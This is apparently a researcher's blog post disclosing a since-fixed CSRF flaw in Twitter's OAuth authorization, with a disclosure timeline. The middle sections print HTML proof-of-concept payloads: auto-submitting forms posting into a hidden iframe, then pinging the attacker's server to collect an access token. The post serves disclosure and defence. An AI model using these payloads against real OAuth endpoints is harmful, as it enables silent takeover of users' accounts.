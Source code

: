 # Twitter OAuth Vulnerability

A while ago I found quite a serious vulnerability in Twitter's implementation of [OAuth](http://en.wikipedia.org/wiki/OAuth).

The vulnerability I discovered is so severe that simply visiting a malicious webpage could give an attacker complete read, write and direct message access to your Twitter account.

Before I go into details of the vulnerability, let me make it clear that this vulnerability has been reported to Twitter and has been confirmed fixed.

## A quick OAuth primer

If you've ever used a Facebook or Twitter app before, you've come into contact with OAuth.

OAuth is a popular authorization protocol commonly used by service providers to allow users to connect with 'apps' and allow these apps to interact with the user's account.

Requesting access to a user's account via OAuth is quite simple:

Firstly, your application (the *consumer*) sends an authenticated request to the service provider to obtain a request token. Your application then redirects the user to the endpoint nominated by the service provider with this request token as a URL parameter.

If the user has never authorized your application before, the service provider will display a page asking the user if they wish to authorize your app to access their account. If the user chooses to allow your app access, they are redirected back to a URL your application nominates with a verifier token parameter.

Your application then presents this verifier token, the original request token, and a secret to the service provider and retrieves an access token. This access token allows your application to perform authenticated actions against the user's account.

## The first vulnerability in Twitter's OAuth implementation

Twitter's confirmation form presented to users when an app requests access to their account looks something like this:

    \html
    <form action="https://twitter.com/oauth/authorize" id="oauth_form" method="post">
      <div style="margin:0;padding:0">
        <input name="authenticity_token" type="hidden" value="[CSRF TOKEN]" />
      </div>
      
      <input id="oauth_token" name="oauth_token" type="hidden" value="[ORIGINAL REQUEST TOKEN]" />        
      <fieldset class="buttons">
        <legend>Authorize [APP NAME] access to use your account?</legend>
        <input type="submit" value="Authorize app" class="submit button selected" id="allow">
        <input class="submit button" id="cancel" name="cancel" type="submit" value="Cancel" />
      </fieldset>
    </form>

You'll notice that this form only sends two pieces of information to Twitter when the user clicks 'Allow':

* `oauth_token` — This happens to be the original token Twitter provided us with when we requested to authorize the user. This is **known information**.

* `authenticity_token` — This is a token intended to prevent CSRF attacks. The purpose of this token is to thwart attempts to forge an authenticated form submission from another website. The security of this form relies on this token being **unknown** to our app.

Unfortunately, there is no easy way to guess what `authenticity_token` Twitter serves to the user in this form.

Fortunately, **Twitter never bothers to check this token**.

Since we know every bit of information this form submits, we can create our own auto-submitting form that POSTs to Twitter's OAuth authorize endpoint to force the user to allow our malicious application access to their account.

Here's what such a form looks like:

    \html
    <form name="twitter" action="https://api.twitter.com/oauth/authorize" method="post">
      <input type="hidden" name="oauth_token" value="[ORIGINAL REQUEST TOKEN]" />
    </form>

    <script>
      document.forms.twitter.submit();
    </script>

When this form is submitted, the user will be sent to Twitter's "*redirecting back to the application*" page, which then redirects back to us and supplies the `oauth_verifier` we need to request an access token for the user.

This vulnerability is already bad enough, but the quick flash of Twitter's redirecting splash page may alert the user that something fishy is going on. We need to do better than this.

## The second vulnerability in Twitter's OAuth implementation

Once the user has authorized our app (whether willingly or not...), Twitter redirects them back to our app with a special `oauth_verifier` token in the URL. In theory, we'd need to use this verifier token to obtain the access_token from Twitter.

Luckily for us, **Twitter never bothers to check that we've supplied a verifier token!**

This means we can forge a POST request to Twitter's authorize endpoint into a hidden iframe, wait a second or two, then send a 'ping' back to our server letting it know it can try to retrieve the `access_token` from Twitter:

    \html
    <form name="twitter" action="https://api.twitter.com/oauth/authorize" method="post" target="target">
      <input type="hidden" name="oauth_token" value="[ORIGINAL REQUEST TOKEN]" />
    </form>

    <form name="ping" action="/confirm" target="target"></form>

    <iframe name="target" style="position:absolute;left:-999px;top:-999px;"></iframe>

    <script>
      document.forms.twitter.submit();

      setTimeout(function() {
        document.forms.ping.submit();
      }, 2000);
    </script>

Once the second "*ping*" form has submitted back to our server, we can retrieve an access token for the user and start making authenticated API requests on their behalf, even once they've closed our page!

What makes this vulnerability so dangerous is that by POSTing into a hidden iframe, all this activity is invisible to the user. They have absolutely no idea that they have been compromised.

## Twitter's response

Here's a timeline of the vulnerability discovery and reporting process:

* **March 31st** — Vulnerability discovered.

* **April 3rd** — Vulnerability reported to Twitter with [full proof of concept exploit](https://gist.github.com/charliesome/8241429802f57f063177).

* **April 3rd** — Twitter acknowledges receipt of the vulnerability.

* **April 5th** — Twitter claims to have fixed the vulnerability.

* **April 6th** — I inform Twitter that their OAuth implementation is still vulnerable to CSRF.

* **April 7th** — Twitter acknowledges they are vulnerable to CSRF, claims this is not a problem and that they are secure regardless.

* **April 7th** — [Slightly modified proof of concept exploit](https://gist.github.com/charliesome/c34935d45fd7355cf42d) provided to Twitter.

* **April 8th** — Twitter claims that "this time it really should be fixed!"

* **April 8th** — I confirm Twitter is no longer vulnerable.

* **April 8th** — Twitter asks if I would like to be added to their whitehat list.

* **April 8th** — I let Twitter know I wish to be added to their whitehat list.

* **April 8th** — Twitter tells me I'll be added to their whitehat list on the next update. Twitter tells me to be patient because they don't update it very frequently.

* **April 22nd** — Twitter **still** hasn't added me to their whitehat list, despite requests for updates on the situation.

It's important to remember that security researchers are in *no way* obligated to disclose vulnerabilities to your organisation. Each vulnerability reported is a gift. Treat whitehats poorly, and you may find they are reluctant to extend gestures of goodwill in the future.

Needless to say, I'll think twice before reporting another vulnerability to Twitter.

(also yes, I am aware of the irony of the footer section below this sentence)
